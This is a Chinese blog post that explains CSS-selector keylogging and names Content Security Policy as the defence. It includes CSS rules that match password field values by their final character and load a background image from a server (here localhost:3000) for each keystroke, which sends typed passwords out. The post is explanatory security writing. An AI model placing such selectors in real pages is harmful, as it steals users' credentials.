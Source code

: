 ```yaml
---
title: 使用css selector 记录用户输入信息
date: 2019-11-13 14:09:22
tags: [web security, web fronted]
---
```


## CSS3 Selector
  实现使用 CSS 记录用户信息主要使用了 CSS3 中的 selector。

| 序号 | 选择器 | 含义 |
| :-----| :---- | :---- |
| 1 | E[attr^="val"] | 属性 attr 的值以 "val" 开头的元素 |
| 2 | E[att$="val"] | 属性 attr 的值以 "val" 结尾的元素 |
| 3 | E[att*="val"] | 属性 attr 的值以 "val" 字符串的元素 |

## 键位匹配

浏览器自身默认不会将用户输入的值同步到 value 中, 但像一些框架会将用户输入值同步到 value 中。[Demo Link](https://codepen.io/epson-lee/pen/vYYzaNb?editors=0010)

![demo.gif](https://preview.pro.ant.design/user/login?redirect=https%3A%2F%2Fpreview.pro.ant.design%2Fdashboard%2Fanalysis)

将值同步到 value 之后，我们可以使用 css 来做匹配，对应的键位发送到不同的链接。

```css
/* 命中 0 时 请求对应的接口 */
input[type="password"][value$="0"] {
  background-image: url("http://localhost:3000/0"); 
}
/* 命中 1 时 请求对应的接口 */
input[type="password"][value$="1"] {
  background-image: url("http://localhost:3000/1"); 
}
```

## 防御措施

在知道可以使用 css 来记录按键之后我兴冲冲的找到对应的 github demo，按照文档所说打开 [https://instagram.com](https://instagram.com)，安装 Chrome Extension、输入密码但却然而却发现并没有记录到信息，出现了如下的错误信息：

![Error Info](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/css-keylogger-error.png)

在 [antd-design-pro 示例登录页](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/1.gif) 倒是可以。

![Error Info](https://raw.githubusercontent.com/EPSON-LEE/image-hosting/master/css-keylogger.gif)

这是因为 [https://instagram.com](https://instagram.com) 使用了 CSP (Content Security Policy)。 说白了就是为了页面安全而制定的一系列防护措施，通过CSP所约束的规则制定可信的内容来源（脚本、图片、iframe、fton、style 等可能的远程资源）。

## 引用

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging)
[Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击](https://www.zhihu.com/question/21979782)
